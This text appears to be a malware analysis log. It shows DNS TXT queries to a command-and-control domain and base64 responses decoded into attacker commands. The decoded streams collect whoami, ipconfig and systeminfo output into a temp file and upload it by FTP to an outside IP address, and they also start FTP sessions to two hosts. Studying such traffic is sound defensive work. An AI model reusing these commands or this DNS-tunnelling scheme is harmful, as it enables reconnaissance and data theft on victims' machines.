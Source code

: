 [*] Filename: 3.txt
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_3_-_txt_0_122829473.shalaghlagh.tk | 
Type: TXT
[+] Response TXT: c3RhcnQgZnRwIC1BIDg3LjExNy4yMDQuMTQz
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_3_-_txt_27_1524268269.shalaghlagh.tk | 
Type: TXT
[+] Response TXT: EOFEOF
[*] Decoded Stream: start ftp -A 87.117.204.143
[+] Query: rne_DNSTRWIN-LJLV2NKIOKPR1009969912_117849324.shalaghlagh.tk | Type: TXT
[+] Response TXT: NO
[+] Query: bne_DNSTRWIN-LJLV2NKIOKPR1009969912_926300114.shalaghlagh.tk | Type: TXT
[+] Response TXT: OK5.txt
[*] Filename: 5.txt
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_5_-_txt_0_1307455992.shalaghlagh.tk | 
Type: TXT
[+] Response TXT: 
d2hvYW1pPmM6XHdpbmRvd3NcdGVtcFx0LnR4dA0KaXBjb25maWc_PmM6XHdpbmRvd3NcdGVtcFx0LnR4dA0Kc3
lzdGVtaW5mbz4_Yzpcd2luZG93c1x0ZW1wXHQudHh0DQplY2hvIFBVVCBjOlx3aW5kb3dzXHRlbXBcdC50eHQg
fCBmdHAgLUEgODcuMTE3LjIwNC4x
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_5_-_txt_150_2072649310.shalaghlagh.tk | 
Type: TXT
[+] Response TXT: NDM=
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_5_-_txt_152_1977692291.shalaghlagh.tk | 
Type: TXT
[+] Response TXT: EOFEOF
[*] Decoded Stream: whoami>c:\windows\temp\t.txt
ipconfig>>c:\windows\temp\t.txt
systeminfo>>c:\windows\temp\t.txt
echo PUT c:\windows\temp\t.txt | ftp -A 87.117.204.143
[+] Query: rne_DNSTRWIN-LJLV2NKIOKPR1009969912_155964816.shalaghlagh.tk | Type: TXT
[+] Response TXT: NO
[+] Query: bne_DNSTRWIN-LJLV2NKIOKPR1009969912_1003791024.shalaghlagh.tk | Type: TXT
[+] Response TXT: OK7.txt
[*] Filename: 7.txt
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_7_-_txt_0_1649905845.shalaghlagh.tk | 
Type: TXT
[+] Response TXT: c3RhcnQgZnRwIC1BIDgzLjE0Mi4yMzAuMTM4
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_7_-_txt_27_65323037.shalaghlagh.tk | 
Type: TXT
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_7_-_txt_27_65323037.shalaghlagh.tk | 
Type: TXT
[+] Response TXT: EOFEOF
[*] Decoded Stream: start ftp -A 83.142.230.138
[+] Query: rne_DNSTRWIN-LJLV2NKIOKPR1009969912_1205170103.shalaghlagh.tk | Type: TXT
[+] Response TXT: NO
[+] Query: bne_DNSTRWIN-LJLV2NKIOKPR1009969912_779542217.shalaghlagh.tk | Type: TXT
[+] Response TXT: OK11.txt
[*] Filename: 11.txt
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_11_-_txt_0_1213525986.shalaghlagh.tk | 
Type: TXT
[+] Response TXT: QGVjaG8gb2ZmDQplY2hvIDE=
[+] Query: bd_DNSTRWIN-LJLV2NKIOKPR1009969912_11_-_txt_17_651256114.shalaghlagh.tk | 
Type: TXT
[+] Response TXT: EOFEOF
[*] Decoded Stream: @echo off
echo 1
[+] Query: rne_DNSTRWIN-LJLV2NKIOKPR1009969912_816831185.shalaghlagh.tk | Type: TXT
[+] Response TXT: NO
